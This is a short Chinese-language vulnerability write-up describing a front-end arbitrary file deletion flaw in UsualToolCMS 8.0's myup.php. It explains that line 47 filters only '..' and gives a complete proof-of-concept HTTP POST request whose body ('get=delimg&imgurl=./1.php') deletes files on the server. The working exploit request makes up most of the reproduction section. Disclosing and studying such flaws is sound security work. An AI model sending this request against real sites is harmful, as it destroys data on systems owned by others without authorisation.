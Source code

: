 ```yaml
---
title: "UsualToolcms 8.0 前台任意文件删除"
id: zhfly3212
---
```


# UsualToolcms前台任意文件删除

## 一、漏洞简介

前台myup.php文件最后一段存在任意文件删除

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

漏洞点：http://0-sec.org/myup.php

![image](../img/35846b3689dd3314bca34877f23e55eb.png)

第47行只对..精心过滤，我仍然能任意删除网站内部的文件，直接构造poc，

![image](../img/9bfc4de904966df975fdba75d652eea0.png)

![image](../img/d0d6827f5b5e9dcd98dab0be1c582e93.png)

```
POST /UsualToolCMS/myup.php HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 25 `get=delimg&imgurl=./1.php` 
```